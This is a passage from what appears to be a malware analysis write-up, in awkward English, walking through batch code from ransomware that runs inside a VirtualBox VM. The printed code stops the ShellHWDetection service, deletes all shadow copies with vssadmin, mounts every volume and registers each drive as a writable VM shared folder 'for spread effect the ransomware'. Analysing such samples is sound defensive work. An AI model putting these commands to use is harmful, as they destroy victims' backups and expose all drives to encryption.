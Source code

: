 <h4>This stops the service of auto-discovering for avoiding to have autorun options at each volume that be mount for the shared volumes.This deletes the shadow copies and parsed all the volumes availables.</h4>

```bat
REM stop the service for avoid problem with autorun operations at each new volume mounted
sc stop ShellHWDetection
REM Remove shadow copy
vssadmin delete shadows /all /quiet
REM Detect all the volumes by regex on the help list
mountvol | find "}\" > v.txt
(For /F %%i In (v.txt) Do (
	Set freedrive=0
	FOR %%d IN (C D E F G H I J K L M N O P Q R S T U V W X Y Z) DO (
		IF NOT EXIST %%d:\ (
			IF "!freedrive!"=="0" (
				Set freedrive=%%d
			)
		)
	)
	mountvol !freedrive!: %%i
    REM Test Media
	ping -n 2 127.0.0.1
))
```

<h4>For the detection of the volumes, this uses a regex ("}\") with the "find" command for catch the list of volumes pushed on the help menu of the command, by example in this sandbox.</h4>

```bat
   \\?\Volume{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXX}\
        *** No mount point ***

    \\?\Volume{YYYYYYYY-YYYY-YYYY-YYYY-YYYYYYYYYYY}\
        C:\

    \\?\Volume{ZZZZZZZZ-ZZZZ-ZZZZ-ZZZZ-ZZZZZZZZZZZ}\
        D:\
```
<h4>This continues in affected a share on the root fo each valid volume.</h4>

```bat
REM for each volume found this add it on the shared folders for spread effect the ransomware inside the VM
Set driveid=0
FOR %%d IN (C D E F G H I J K L M N O P Q R S T U V W X Y Z) DO (
	IF EXIST %%d:\ (
		Set /a driveid+=1
		echo ^<SharedFolder name="!driveid!" hostPath="%%d:\" writable="true"/^> >>sf.txt
	)
)
```

<h4>This creates the configuration of the VM weaponized (micro.xml), stop the process and services before run the VM. As said before, VBOX_USER_HOME is an important point where is the xml configuration for the old Virtualbox version for making portable Virtualbox which have been removed for fixed the location of Virtualbox on the programfiles folder by Oracle few times after their acquisition.</h4>
